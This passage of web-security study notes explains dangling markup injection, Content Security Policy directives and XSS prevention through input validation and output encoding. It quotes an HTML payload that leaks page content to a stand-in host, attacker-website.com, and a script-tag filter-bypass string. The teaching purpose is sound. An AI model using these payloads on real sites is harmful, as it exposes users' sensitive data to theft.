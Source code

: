 In this situation, an attacker would naturally attempt to perform XSS. But suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:

```html
"><img src='//attacker-website.com?
```

Note that the attacker's payload doesn't close the `src` attribute, which is left *dangling*. When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute.

The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data.

## Content Security Policy (CSP)

CSP is a browser security mechanism that works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages.

To enable CSP, a response needs to include an HTTP response header called `Content-Security-Policy` with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons.

The following directive will only allow scripts to be loaded from the same origin as the page itself:

`script-src 'self'`

The following directive will only allow scripts to be loaded from a specific domain:

`script-src https://scripts.normal-website.com`

- A good starting point to define a Content Security Policy:

`default-src 'self'; script-src 'self'; object-src 'none'; frame-src 'none'; base-uri 'none';`

## Prevention

- Validate input on arrival:
	- If a user submits a URL that will be returned in responses, validate that it starts with a safe protocol such as HTTP and HTTPS.
	- If a user supplies a value that is expected to be numeric, validate that the value actually contains an integer.
	- Validate that input contains only an expected set of characters.
	- **Whitelisting**.

- Not sanitize too much!
	Example: If you drop `<script>` substrings, I will send `<s<script>cript>`
- Escape (or encode) output:
	In an HTML context, you should convert non-whitelisted values into HTML entities:
	- `<` converts to: `&lt;`
	- `>` converts to: `&gt;`
	In a JavaScript string context, non-alphanumeric values should be Unicode-escaped:
	- `<` converts to: `\u003c`
	- `>` converts to: `\u003e`
